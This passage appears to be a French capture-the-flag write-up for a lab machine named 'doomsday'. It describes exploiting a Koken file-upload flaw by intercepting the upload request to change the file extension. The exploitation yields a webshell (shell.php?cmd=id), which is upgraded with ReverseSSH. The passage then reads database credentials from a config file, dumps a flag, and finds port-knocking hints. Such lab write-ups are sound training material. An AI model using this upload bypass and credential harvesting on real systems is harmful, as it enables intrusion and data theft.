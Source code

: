 ```plain
________________________________________________ 

Crinklepuss             [Status: 302, Size: 0, Words: 1, Lines: 1] 
:: Progress: [34/34] :: Job [1/1] :: 14 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

Cette appli *Koken* a une entrée sur exploit-db et sans trop de surprise il s'agit d'[une faille d'upload](https://www.exploit-db.com/exploits/48706), grand classique des CTFs.  

L'exploit suggère juste de procéder à l'upload depuis l'interface mais en interceptant la requête HTTP (j'ai utilisé OWASP ZAP) pour changer l'extension du fichier à la volée.  

Cela peut sembler bizarre mais en fait l'appli web procède à une vérification de l'extension du fichier à uploader via Javascript avant même que l'envoi des données n'ait lieu. On pourrait bloquer Javascript sur le site mais dans ce cas l'upload risquerait de ne pas se lancer. L'interception est par conséquent une solution pratique pour arriver à nos fins.  

J'obtiens alors mon webshell à cette adresse : *http://192.168.56.18:18888/storage/originals/31/f9/shell.php?cmd=id*  

Plus qu'à upgrader cela avec ReverseSSH et on a tout le confort d'un véritable shell :)  

```plain
www-data@doomsday:/var/www/koken/storage$ cat configuration/database.php    
<?php 
        return array( 
                'hostname' => 'localhost', 
                'database' => 'kokendb', 
                'username' => 'kokenuser', 
                'password' => 'Toby!Flenderson444', 
                'prefix' => 'koken_', 
                'socket' => '' 
        );
```

A défaut de servir vraiment à quelque chose ces identifiants permettent d'accéder à un flag supplémentaire :  

```plain
mysql> select * from flag; 
+----------------------------------------+ 
| record                                 | 
+----------------------------------------+ 
| FLAG5:d2d1b5f66d0e00b35fe2bdee7ffcb398 | 
+----------------------------------------+
```

Très peu pour moi
-----------------

Je trouve une référence à du port knocking dans un des dossiers web :

```plain
www-data@doomsday:/var/www$ ls -al /var/www/html/_hint_/  
total 408 
drwxr-xr-x 2 root root   4096 Nov 30  2020 . 
drwxr-xr-x 5 root root   4096 Nov 17  2020 .. 
-rw-r--r-- 1 root root    733 Nov 30  2020 index.html 
-rw-r--r-- 1 root root 155226 Oct 19  2020 knockknock1.jpg 
-rw-r--r-- 1 root root  93234 Nov 30  2020 knockknock2.jpg 
-rw-r--r-- 1 root root 155226 Oct 19  2020 knockknock3.jpg
www-data@doomsday:/$ md5sum /var/www/html/_hint_/knockknock* 
87e88515fb8bbf9c3b9afba810ddf253  /var/www/html/_hint_//knockknock1.jpg 
76319519515f5c801b2d1940ea2becb1  /var/www/html/_hint_//knockknock2.jpg 
87e88515fb8bbf9c3b9afba810ddf253  /var/www/html/_hint_//knockknock3.jpg
```
